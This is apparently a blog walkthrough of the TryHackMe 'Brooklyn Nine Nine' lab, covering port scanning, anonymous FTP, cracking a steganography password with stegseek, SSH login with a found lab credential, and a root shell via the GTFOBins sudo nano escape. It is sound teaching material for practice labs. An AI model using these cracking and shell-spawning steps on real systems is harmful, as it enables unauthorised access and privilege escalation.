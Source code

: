 ```yaml
---
title: TryHackMe Brooklyn Nine Nine [CHALLENGE]
date: 2024-03-14 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/95b2fab20e29a6d22d6191a789dcbe1f.jpeg
---
```


This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

## **Reconnaissance**
---
Initially do the Nmap scan.

```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 04:31 EDT
Stats: 0:00:44 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 30.15% done; ETC: 04:33 (0:01:42 remaining)
Nmap scan report for 10.10.145.160
Host is up (0.30s latency).
Not shown: 65399 closed tcp ports (conn-refused), 133 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.50.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.31 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

TARGET IP: 10.10.145.160

80 → HTTP

- There is a clue from the source code about **steganography**
- The background image is password protected

21 → FTP

- Anonymous login is allowed
- There is a note saying that Jake has a weak password. From Amy.

22 → SSH

- There are possible 3 usernames.
    - Amy:?
    - Jake:?
    - Holts. Is this another username
        - Extracted from the background image.
- Found a password
    - holt: fluffydog12@ninenine

## **Enumeration**
---
### 80 HTTP

Viewing the page source code

![Desktop View](/assets/images/brooklyn/source-code.png){: width="972" height="589" }

It looks like we will be using some steganography tools. Maybe from the background image of the webpage since there is a big emphasis on how the background image follows the screen resolution. But how do we get the file?

![Desktop View](/assets/images/brooklyn/get-file.png){: width="972" height="589" }

Looking at the source code, the `url()` function is used to include an external resource. In this case, it's referring to an image file named **brooklyn99.jpg**. We can access it by:

```bash
http://10.10.145.160/brooklyn99.jpg
```
Before anything else, read about [Steganography by freecodecamp](https://www.freecodecamp.org/news/what-is-steganography-hide-data-inside-data/) first.

We need to extract what's hidden from the background image using steghide. You can use the --help page for steghide if you don't understand the flag being used.

```bash
steghide extract -sf brooklyn99.jpg -xf image-extract.txt
```

And it looks like the image is password protected. Let us use stegseek to bruteforce the password.

```bash
stegseek --crack brooklyn99.jpg /usr/share/wordlists/rockyou.txt
```
![Desktop View](/assets/images/brooklyn/stegseek.png){: width="972" height="589" }

**Use the steghide again** to extract the information from the background image and enter the password we got from bruteforcing using `stegseek`. Once extracted, view the text file.

```bash
steghide extract -sf brooklyn99.jpg -xf image-extract.txt
```
![Desktop View](/assets/images/brooklyn/steghide.png){: width="972" height="589" }

GOOD DOG! Cheddar!! We got the password, but who uses that? We can search for possible usernames in the FTP.

### 21 FTP

```bash
ftp <IP>
```
![Desktop View](/assets/images/brooklyn/ftp.png){: width="972" height="589" }

```bash
ls -la
```
![Desktop View](/assets/images/brooklyn/ls.png){: width="972" height="589" }

```bash
get <FILENAME>
```
![Desktop View](/assets/images/brooklyn/getfile.png){: width="972" height="589" }

Go back to working directory of the attack machine and view the text file.

![Desktop View](/assets/images/brooklyn/weak.png){: width="972" height="589" }

Can we hail hydra? Or Just use the credentials we just found from the text file hiding in the background image and the text file we got from the FTP.




## **Gaining an Initial Foothold**

Login via SSH. I tried using holt as the username, if it did not work, using hydra would be our best bet. Enter the password when prompted.

```bash
ssh holt@<IP>
```
![Desktop View](/assets/images/brooklyn/ssh.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }


## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/brooklyn/sudo.png){: width="972" height="589" }

It looks like our user is allowed to run `nano` as a superuser without a password. This means that we can open the final flag by leveraging the `sudo` command or just use the code below from GTFO bins to **spawn a root shell**.

![Desktop View](/assets/images/brooklyn/sudo-nano.png){: width="972" height="589" }

Using GTFOBins
```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

```bash
Ctrl + R
```
Nano allows inserting external files into the current one using the shortcut

```bash
Ctrl + X
```
This command allows us to execute system level commands using

```bash
reset; sh 1>&0 2>&0
```
Allows us to spawn a shell

![Desktop View](/assets/images/brooklyn/root-gtfo.png){: width="972" height="589" }

![Desktop View](/assets/images/brooklyn/pwned.png){: width="972" height="589" }


> Do not forget to find the FLAGS
{: .prompt-danger }

## **Take Away Concepts**
- Understand steganography. Sometimes, these pictures might have the passwords or hints you need to get on top of the machine.
- Always check websites or web apps carefully by yourself. View the page source!
- If the binary /bin/nano has extra permissions, you can use this to your advantage to escalate your privilege. Make sure you understand how this trick works instead of just copying blindly from GTFObins.
- Pay close attention to any hints given.
- Don't worry about checking different network services if you're stuck. You can always take notes and come back later.
- Trying to bruteforce passwords right away isn't the best first step. Make sure you've tried all other options first to gain an initial foothold!